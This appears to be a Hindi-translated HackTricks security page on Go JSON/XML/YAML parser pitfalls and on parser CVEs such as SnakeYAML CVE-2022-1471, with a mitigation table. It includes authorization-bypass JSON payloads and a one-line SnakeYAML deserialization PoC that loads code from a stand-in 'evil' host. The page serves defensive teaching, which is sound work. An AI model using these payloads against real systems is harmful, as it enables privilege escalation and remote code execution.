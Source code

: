 # JSON, XML & Yaml Hacking & समस्याएँ

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

The following issues were detected in the Go JSON although they could be present in other languages as well. These issues were published in [**this blog post**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

Go’s JSON, XML, and YAML parsers have a long trail of inconsistencies and insecure defaults that can be abused to **bypass authentication**, **escalate privileges**, or **exfiltrate sensitive data**.


### (Un)Marshaling Unexpected Data

लक्ष्य उन structs का शोषण करना है जो एक हमलावर को संवेदनशील फील्ड पढ़ने/लिखने की अनुमति देते हैं (उदा., `IsAdmin`, `Password`)।

- उदाहरण Struct:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- सामान्य कमजोरियाँ

1. **Missing tag** (कोई टैग नहीं = फ़ील्ड फिर भी डिफ़ॉल्ट रूप से पार्स किया जाता है):
```go
type User struct {
Username string
}
```
Payload:
```json
{"Username": "admin"}
```
2. **`-` का गलत उपयोग**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Payload:
```json
{"-": true}
```
✔️ किसी फ़ील्ड को (un)marshaled होने से रोकने का सही तरीका:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### पार्सर भिन्नताएँ

लक्ष्य यह है कि authorization को bypass करना, इस बात का फायदा उठाकर कि विभिन्न parsers एक ही payload को अलग तरीके से interpret करते हैं, जैसे:
- CVE-2017-12635: Apache CouchDB bypass via duplicate keys
- 2022: Zoom 0-click RCE via XML parser inconsistency
- GitLab 2025 SAML bypass via XML quirks


**1. डुप्लिकेट फ़ील्ड:**
Go's `encoding/json` लेता है **आखिरी** फ़ील्ड।
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
अन्य पार्सर (उदा., Java’s Jackson) संभवतः **पहला** ले सकते हैं।

**2. केस-असंवेदनशीलता:**
Go केस-असंवेदनशील है:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
यहाँ तक कि Unicode tricks भी काम करते हैं:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Cross-service mismatch:**
कल्पना करें:
- Proxy Go में लिखा गया
- AuthZ service Python में लिखा गया

Attacker sends:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python `UserAction` को देखता है, अनुमति देता है
- Go `AdminAction` को देखता है, निष्पादित करता है


### डेटा फ़ॉर्मेट भ्रम (Polyglots)

लक्ष्य उन सिस्टम्स का शोषण करना है जो फॉर्मैट्स (JSON/XML/YAML) को मिलाते हैं या पार्सर त्रुटियों पर fail open हो जाते हैं, जैसे:
- **CVE-2020-16250**: HashiCorp Vault ने JSON को XML parser के साथ पार्स किया जब STS ने XML की बजाय JSON लौटाया।

हमलावर नियंत्रित करता है:
- The `Accept: application/json` header
- JSON बॉडी का आंशिक नियंत्रण

Go का XML parser ने इसे फिर भी पार्स किया और इंजेक्ट की गई पहचान पर भरोसा कर लिया।

- तैयार किया गया payload:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
परिणाम:
- **Go JSON** parser: `Action_2` (case-insensitive + last wins)
- **YAML** parser: `Action_1` (case-sensitive)
- **XML** parser: स्ट्रिंग के अंदर `"Action_3"` को पार्स करता है

---

## उल्लेखनीय Parser Vulnerabilities (2023-2025)

> निम्नलिखित सार्वजनिक रूप से शोषणयोग्य मुद्दे दिखाते हैं कि असुरक्षित parsing एक बहु-भाषीय समस्या है — सिर्फ Go की समस्या नहीं।

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* प्रभावित: `org.yaml:snakeyaml` < **2.0** (Spring-Boot, Jenkins आदि में उपयोग).
* मूल कारण: `new Constructor()` **arbitrary Java classes** को deserializes करता है, जिससे gadget chains बनते हैं जो अंततः remote-code execution तक पहुँचते हैं।
* One-liner PoC (vulnerable host पर calculator खोलेगा):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* सुधार / शमन:
1. **≥2.0 पर अपग्रेड करें** (डिफ़ॉल्ट रूप से `SafeLoader` का उपयोग करता है).
2. पुराने संस्करणों पर, स्पष्ट रूप से उपयोग करें `new Yaml(new SafeConstructor())`.

### libyaml Double-Free (CVE-2024-35325)

* प्रभावित: `libyaml` ≤0.2.5 (कई भाषा बाइंडिंग्स द्वारा उपयोग की जाने वाली C लाइब्रेरी).
* समस्या: `yaml_event_delete()` को दो बार कॉल करने से एक double-free होता है, जिसे हमलावर DoS या कुछ परिदृश्यों में heap exploitation में बदल सकते हैं.
* स्थिति: Upstream ने इसे “API misuse” के रूप में अस्वीकार किया, लेकिन Linux distributions ने पैच्ड **0.2.6** जारी किया जो रक्षात्मक रूप से pointer को null-free कर देता है.

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* प्रभावित: Tencent **RapidJSON** before commit `8269bc2` (<1.1.0-patch-22).
* बग: `GenericReader::ParseNumber()` में unchecked arithmetic हमलावरों को बड़े numeric literals तैयार करने की अनुमति देता है जो wrap around करके heap को corrupt कर देते हैं — अंततः उस resulting object graph का उपयोग authorization decisions के लिए किए जाने पर privilege-escalation सक्षम हो जाता है.

---

### 🔐 शमन (अद्यतन)

| जोखिम                                | समाधान / सिफारिश                                      |
|-------------------------------------|------------------------------------------------------------|
| अज्ञात फ़ील्ड्स (JSON)               | `decoder.DisallowUnknownFields()`                          |
| डुप्लिकेट फ़ील्ड्स (JSON)           | ❌ stdlib में कोई फिक्स नहीं — [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) से validate करें |
| केस-असंवेदनशील मिलान (Go)          | ❌ कोई फिक्स नहीं — struct tags को validate करें + input को pre-canonicalize करें   |
| XML garbage data / XXE              | एक hardened parser का उपयोग करें (`encoding/xml` + `DisallowDTD`)     |
| YAML अज्ञात कुंजियाँ                 | `yaml.KnownFields(true)`                                   |
| **Unsafe YAML deserialization**     | SafeConstructor का उपयोग करें / SnakeYAML ≥2.0 पर अपग्रेड करें            |
| libyaml ≤0.2.5 double-free          | **0.2.6** या डistro-पैच्ड रिलीज़ पर अपग्रेड करें            |
| RapidJSON <patched commit           | नवीनतम RapidJSON (≥July 2024) के साथ compile करें              |

## देखें भी

{{#ref}}
mass-assignment-cwe-915.md
{{#endref}}

## संदर्भ

- Baeldung – “Resolving CVE-2022-1471 With SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}

